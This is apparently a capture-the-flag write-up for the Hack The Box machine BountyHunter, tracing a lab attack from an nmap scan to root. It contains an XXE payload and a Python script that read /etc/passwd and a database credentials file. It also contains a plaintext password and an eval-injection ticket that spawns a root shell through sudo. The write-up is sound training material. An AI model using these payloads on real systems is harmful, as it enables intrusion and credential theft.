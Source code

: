 ![](bountyHunter_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.100 bountyHunter.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From web server on port 80, `/portal.php` lead to `/log_submit.php`

![](screenshots/log-submit.png)

This page takes users input and send it in xml form as base64 encoded strings. 

![](screenshots/send-report.png)

![](screenshots/xml-data.png)

From gobuster found a interesting file.
```bash
gobuster dir -u "http://10.10.11.100" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt

/db.php               (Status: 200) [Size: 0]
```

# Foothold

## xxe

Testing xxe and get `/etc/passwd` file from xxe payload.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
```

![](screenshots/xxe-injection.png)

Simple python script to automate xxe
```py
import re
import sys
import requests as r
import base64

url = "http://10.10.11.100/tracker_diRbPr00f314.php"
payload = "php://filter/convert.base64-encode/resource=db.php"
# payload = "file:///etc/passwd"
# payload = sys.argv[1]

data = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "{payload}">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>""".encode('ascii')

postdata = {"data": base64.b64encode(data).decode('ascii')}
rspn = r.post(url, data=postdata)
# print(rspn.text)

filter_rspn = re.findall('<td>(.*?)</td>', rspn.text, re.DOTALL)[1]
try:
    b64decode = base64.b64decode(filter_rspn).decode()
    print(bytes(b64decode, 'utf-8').decode('unicode_escape'))
except Exception:
    print(filter_rspn)
```

* Get username from `/etc/passwd`: "`development`"
* And db creds from: `db.php`: "`m19RoAU0hP41A1sTsq6K`"

database password worked for user "development" ssh login.

# Privesc

## python script logic

User "development" can run a python script `/opt/skytrain_inc/ticketValidator.py` with sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

This script doing something

![](screenshots/ticket-script.png)

because script is not sanitizing input and directly send it to eval with some conditions, we only need to pass some checks and get code execution.
```bash
# Skytrain Inc
## Ticket to hell
__Ticket Code:__
**11 + 90 == 101 and __import__('os').system('/bin/bash')
```

![](screenshots/rooted.png)